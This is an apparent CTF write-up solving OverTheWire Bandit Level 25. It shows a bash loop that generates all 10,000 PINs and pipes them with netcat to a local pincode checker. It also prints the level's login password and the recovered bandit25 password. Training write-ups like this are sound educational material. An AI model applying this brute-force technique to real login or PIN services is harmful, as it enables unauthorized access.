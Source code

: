 # ![](https://overthewire.org/img/domokitten.png)

# Bandit_Level25

## Source:
- [Bandit_Level25] - The topic of Bandit, Level25.
- Netcat, grep, sort, ls, cd, cat, echo.
### I. Connect:
```sh
ssh -p 2220 bandit24@bandit.labs.overthewire.org
Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

### II. My solution:
- To pass this level, `netcat` command is necessary.

- Firstly, create a temp file in `/tmp`: `mkdir /tmp/new_file`, change directory: `cd /tmp/new_file`.

- Then create a .sh file creating 10000 case of input: `nano case.sh`
```sh
#!/bin/bash
for i in {0000..9999}
do 
  echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i >> input.txt
done
```
- Change permission: `chmod +x case.sh`  and Run it: `bash case.sh`.

- A new text file containing 10000 inputs appear: `input.txt`.

- To find needed response from localhost port 30002: `cat input.txt | nc localhost 30002 > result.txt`.

- After about 20 minutes, in the file `result.txt` still not have the password, `sort result.txt | uniq -c`:
```sh
      1 I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
      1 Wrong! Please enter the corr
   6301 Wrong! Please enter the correct pincode. Try again.
```

####
- About 4000 inputs remain, I repeat command again: `tail -n4000 input.txt | nc localhost 30002 > result.txt`.

- Finally, I check result.txt again, `sort result.txt | uniq -c`:
```sh
      1
      1 Correct!
      1 Exiting.
      1 I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
      1 The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
   3708 Wrong! Please enter the correct pincode. Try again.
```
- I found it: `p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`

###
### III. Result:
The password for next level: `p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`   